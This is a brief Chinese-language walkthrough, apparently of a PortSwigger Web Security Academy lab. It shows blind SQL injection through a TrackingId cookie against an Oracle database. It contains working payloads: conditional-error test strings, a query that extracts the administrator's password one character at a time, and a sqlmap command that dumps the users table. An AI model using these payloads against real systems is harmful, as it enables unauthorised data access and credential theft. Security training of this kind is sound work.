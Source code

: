 确定cookie中的TrackingId 能够sql注入

判断语句：

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回正确页面

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回错误页面



判断可以布尔盲注



注入语句：

```javascript
TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator'
+AND+substr(password,1,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
```



![](images/CE13B0A107444E5D8C2065455F600196clipboard.png)





sqlmap注入paylaod:

```javascript
sqlmap -u"https://ac891ffd1f32f6ae80db46b200f7003a.web-security-academy.net" 
--dump -T"users" -D"SYSTEM" 
--cookie="TrackingId=9pD3eC5YpJtrML6B; session=hwdAmAUwX0nlRwgriZ5Xls0nyJpTIzDw" 
--level 2 --skip="session" --dbms "oracle"
```

